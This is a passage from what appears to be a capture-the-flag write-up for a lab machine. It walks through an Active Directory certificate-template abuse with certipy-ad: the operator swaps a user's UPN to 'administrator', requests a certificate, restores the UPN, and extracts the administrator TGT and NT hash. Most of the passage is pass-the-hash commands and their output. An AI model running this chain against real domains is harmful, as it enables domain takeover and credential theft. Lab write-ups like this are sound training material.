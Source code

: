 ```
```

There we go, our next step is **Updating the UPN of `ca_operator` to `administrator`**:

```
certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```

There we go, next step is **Requesting our administrator certificate**:

```
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug


[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.200.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Nice, now, let's **restore the `ca_operator` UPN to its original value**:

```
certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb


[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator
```

Nice, now, we need to **obtain the admin TGT and the Hash**:

```
certipy-ad auth -pfx administrator.pfx -domain certified.htb

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
